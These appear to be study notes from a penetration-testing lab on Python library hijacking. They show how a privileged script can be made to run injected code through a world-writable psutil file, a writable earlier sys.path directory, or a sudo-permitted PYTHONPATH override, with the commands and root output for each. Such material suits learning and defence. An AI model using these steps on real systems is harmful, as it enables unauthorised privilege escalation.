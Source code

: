 
### **Overview**

- Python's import mechanism can be exploited if:
    - A **library file is writable**.
    - A **higher-priority import path** is writable.
    - **PYTHONPATH** environment variable can be manipulated.

- Key targets: scripts with **SUID/SGID** bits or **sudo** permissions.

---

### **Attack Vectors**

#### 1. **Wrong Write Permissions**

- Check script permissions:
```bash
ls -l mem_status.py
# -rwsrwxr-x 1 root mrb3n 188 mem_status.py
```

- Script import module:
```python
import psutil
```

- Locate and check target function:
```bash
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/
```

- Check write access:
```bash
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
# -rw-r--rw- (world writable)
```

- Inject code into function:
```bash
import os
os.system('id')
```

- Execution:
```bash
sudo /usr/bin/python3 ./mem_status.py
# uid=0(root) ...
```

---

#### 2. **Library Path Hijacking**

- View Python path priority:
```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```

- Verify writable higher-priority path:
```bash
ls -la /usr/lib/python3.8
# drwxr-xrwx
```

- Create malicious module (`psutil.py`):
```python
def virtual_memory():
    import os
    os.system('id')
```

- Place it in writable, high-priority path.
- Execute vulnerable script:
```bash
sudo /usr/bin/python3 mem_status.py
# uid=0(root)
```

---

#### 3. **PYTHONPATH Environment Variable**

- Check sudo permissions:
```bash
sudo -l
# (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

- Move malicious `psutil.py` to `/tmp`.
- Execute with custom PYTHONPATH:
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
# uid=0(root)
```

---

### **Key Takeaways**

- Exploitable if:
    - **Writable shared library** imported by privileged script.
    - **Writable directories** exist earlier in the **sys.path**.
    - **PYTHONPATH** can be manipulated with **sudo** permissions.
        
- Always match:
    - **Module name** and **function signature** when hijacking.
